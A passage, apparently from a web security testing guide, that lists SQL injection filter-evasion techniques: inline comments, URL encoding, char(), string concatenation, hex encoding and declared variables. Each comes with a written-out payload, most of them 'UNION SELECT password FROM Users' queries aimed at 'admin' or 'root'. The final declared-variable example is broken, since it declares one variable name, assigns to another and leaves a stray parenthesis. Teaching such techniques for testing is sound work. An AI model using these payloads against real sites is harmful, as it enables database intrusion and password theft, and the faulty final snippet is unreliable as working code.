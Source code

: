 `'/**/UNI/**/ON/**/SE/**/LECT/**/password/**/FROM/**/Users/**/WHE/**/RE/**/name/**/LIKE/**/'admin'--`

#### URL Encoding

Use the [online URL encoding](https://meyerweb.com/eric/tools/dencoder/) to encode the SQL statement

`' UNION SELECT password FROM Users WHERE name='admin'--`

The URL encoding of the SQL injection statement will be

`%27%20UNION%20SELECT%20password%20FROM%20Users%20WHERE%20name%3D%27admin%27--`

#### Character Encoding

Char() function can be used to replace English char. For example, char(114,111,111,116) means root

`' UNION SELECT password FROM Users WHERE name='root'--`

To apply the Char(), the SQL injeciton statement will be

`' UNION SELECT password FROM Users WHERE name=char(114,111,111,116)--`

#### String Concatenation

Concatenation breaks up SQL keywords and evades filters. Concatenation syntax varies based on database engine. Take MS SQL engine as an example

`select 1`

The simple SQL statement can be changed as below by using concatenation

`EXEC('SEL' + 'ECT 1')`

#### Hex Encoding

Hex encoding technique uses Hexadecimal encoding to replace original SQL statement char. For example, `root` can be represented as `726F6F74`

`Select user from users where name = 'root'`

The SQL statement by using HEX value will be:

`Select user from users where name = 726F6F74`

or

`Select user from users where name = unhex('726F6F74')`

#### Declare Variables

Declare the SQL injection statement into variable and execute it.

For example, SQL injection statement below

`Union Select password`

Define the SQL statement into variable `SQLivar`

```sql
; declare @SQLivar nvarchar(80); set @myvar = N'UNI' + N'ON' + N' SELECT' + N'password');
EXEC(@SQLivar)
```
